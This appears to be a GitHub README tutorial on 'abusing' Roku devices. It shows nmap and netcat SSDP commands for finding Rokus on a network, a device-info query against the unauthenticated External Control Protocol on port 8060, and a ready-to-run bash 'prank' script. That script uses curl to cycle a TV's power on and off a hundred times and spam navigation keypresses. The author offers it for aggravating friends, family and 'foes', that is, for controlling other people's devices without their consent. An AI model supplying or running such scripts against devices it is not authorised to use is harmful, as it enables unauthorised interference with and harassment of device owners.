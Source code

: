 # :tv: Abusing ROKU APIs

____________________________________________________________________________________________________________________________________________________________________

![Roku](https://user-images.githubusercontent.com/72598486/133314573-0f0ebc16-9d51-4c1f-b2ad-1c7e15851214.png)

____________________________________________________________________________________________________________________________________________________________________

## Introduction: 

____________________________________________________________________________________________________________________________________________________________________
  I am excited to share how to successfully enumerate your network for Roku devices, issue External Control Protocol (ECP) commands to remotely manipulate televisions, and how to design custom scripts to automate messing with your friends! For more information, check out my Medium article: https://medium.com/@RoseSecurity/a-quick-guide-on-how-to-aggravate-friends-family-and-foes-37182230d7. 
____________________________________________________________________________________________________________________________________________________________________

## Enumerating Your Network for Roku Devices:

____________________________________________________________________________________________________________________________________________________________________

  Utilizing Nmap, we can issue the following command to enumerate our network for Roku devices by looking for service versions (-sV), operating systems (-O), and speeding up the scan by not resolving DNS (-n).

```
$ sudo nmap -sV -O -n 192.168.X.X/24
```

**Output of Nmap scan:**
```
Nmap scan report for 192.168.X.X
Host is up (0.010s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
7000/tcp open  rtsp    AirTunes rtspd 
9080/tcp open  http    Mongoose httpd
MAC Address: 10:59:32:XX:XX:XX (Roku)
```
  We see that Nmap identified the OUI of the MAC address, but I have provided a list of Roku MAC addresses to search for on your network!
  
**ROKU MAC Addresses**
  
```
roku, inc. 	d0:4d:2c 	
roku, inc. 	b0:a7:37 	
roku, inc 	b0:ee:7b 	
roku, inc 	d8:31:34 	
roku, inc 	10:59:32 	
roku, inc 	a8:b5:7c 	
roku, inc. 	b8:a1:75 	
roku, inc. 	88:de:a9 	
roku, inc. 	00:0d:4b 	
roku, inc 	20:ef:bd 	
roku, inc. 	08:05:81 	
roku, inc 	c8:3a:6b 	
roku, inc 	8c:49:62 	
roku, inc 	bc:d7:d4 	
roku, inc. 	ac:3a:7a 	
roku, inc. 	b8:3e:59 	
roku, inc. 	dc:3a:5e 	
roku, inc 	ac:ae:19 	
roku, inc. 	cc:6d:a0 	
roku, inc 	84:ea:ed 	
```

## More Enumeration
____________________________________________________________________________________________________________________________________________________________________

We can identify the device location, name, and several other pertinent fields such as supporting remote capabilities! Another way of enumerating Roku devices is by sending a request to the Simple Service Discovery Port (SSDP) multicast address and port 1900. We can do this by using Netcat:

```
$ nc -u 239.255.255.250 1900 < Roku_ECP_Enum.txt
```
The device will respond with this information which can also be observed in Wireshark:

```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
ST: roku:ecp
Location: http://192.168.X.X:8060/
USN: uuid:roku:ecp:P0A070000007
``` 

Utilizing Nmap and Wireshark, we can easily identify the IP address of any Roku devices attached to the network, and if they support the use of ECPs, we can remotely view the XML file on the webserver of the device!
  
  ```
  http://192.168.X.X:8060/query/device-info
  ```
This will produce an XML page similar to the one below:
  
```
<device-info>
<serial-number>X004000B231</serial-number>
<device-id>S00820BB231</device-id>
<vendor-name>Roku</vendor-name>
<model-name>Roku Ninja</model-name>
<model-number>3930X</model-number>
<model-region>US</model-region>
<is-tv>false</is-tv>
<is-stick>false</is-stick>
<ui-resolution>1080p</ui-resolution>
<supports-ethernet>false</supports-ethernet>
<wifi-mac>10:59:32</wifi-mac>
<wifi-driver>realtek</wifi-driver>
<has-wifi-extender>false</has-wifi-extender>
<has-wifi-5G-support>true</has-wifi-5G-support>
<can-use-wifi-extender>true</can-use-wifi-extender>
<network-type>wifi</network-type>
<network-name>Hillary's Email Server</network-name>
<friendly-device-name>Roku LivingRoom</friendly-device-name>
<friendly-model-name>Roku Express</friendly-model-name>
<default-device-name>Roku Express - X004000AJDX1</default-device-name>
<user-device-name>Roku Master</user-device-name>
<user-device-location>LivingRoom</user-device-location>
<build-number>AEA.00E04209A</build-number>
<software-version>10.0.0</software-version>
<software-build>4209</software-build>
<secure-device>true</secure-device>
<language>en</language>
<country>US</country>
<locale>en_US</locale>
<time-zone-auto>true</time-zone-auto>
<time-zone>US/Eastern</time-zone>
<time-zone-name>United States/Eastern</time-zone-name>
<time-zone-tz>America/New_York</time-zone-tz>
<time-zone-offset>-240</time-zone-offset>
<clock-format>12-hour</clock-format>
<uptime>2912968</uptime>
<power-mode>PowerOn</power-mode>
<supports-suspend>false</supports-suspend>
<supports-find-remote>true</supports-find-remote>
<find-remote-is-possible>false</find-remote-is-possible>
<supports-audio-guide>true</supports-audio-guide>
<supports-rva>true</supports-rva>
<developer-enabled>false</developer-enabled>
<keyed-developer-id/>
<search-enabled>true</search-enabled>
<search-channels-enabled>true</search-channels-enabled>
<voice-search-enabled>true</voice-search-enabled>
<notifications-enabled>true</notifications-enabled>
<notifications-first-use>true</notifications-first-use>
<supports-private-listening>true</supports-private-listening>
<headphones-connected>false</headphones-connected>
<supports-ecs-textedit>true</supports-ecs-textedit>
<supports-ecs-microphone>true</supports-ecs-microphone>
<supports-wake-on-wlan>false</supports-wake-on-wlan>
<supports-airplay>true</supports-airplay>
<has-play-on-roku>true</has-play-on-roku>
<has-mobile-screensaver>false</has-mobile-screensaver>
<support-url>roku.com/support</support-url>
<grandcentral-version>5.5.62</grandcentral-version>
<trc-version>3.0</trc-version>
<trc-channel-version>4.2.3</trc-channel-version>
<davinci-version>2.8.20</davinci-version>
</device-info>
```
## Issuing Commands
____________________________________________________________________________________________________________________________________________________________________

There are numerous commands that can be issued via HTTP requests, so I have provided the table of potential ECPs that can be sent to the device:

![ECP](https://user-images.githubusercontent.com/72598486/133323989-a69daa5c-eec8-41be-b520-8c955c499204.png)

____________________________________________________________________________________________________________________________________________________________________

## An Example Script for Having Fun
____________________________________________________________________________________________________________________________________________________________________

```bash
#!/bin/bash
# Prank script for Roku TV
Hahaha=1

# Power on and off loop
while [ $Hahaha -le 100 ]; do
    curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
    curl -d '' "http://192.168.X.X:8060/keypress/powerOff"
    ((Hahaha=Hahaha+1))
done

# Power on and go to Home
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/Home"

# Navigation loop
Hahaha=1
while [ $Hahaha -le 100 ]; do
    curl -d '' "http://192.168.X.X:8060/keypress/left"
    curl -d '' "http://192.168.X.X:8060/keypress/down"
    ((Hahaha=Hahaha+1))
done

echo "Can we still be friends?"
```

I hope that you learned something new, and if you need more information and resources on how to have more fun with these devices, check out https://developer.roku.com/docs/developer-program/debugging/external-control-api.md

Happy hunting!

wq!

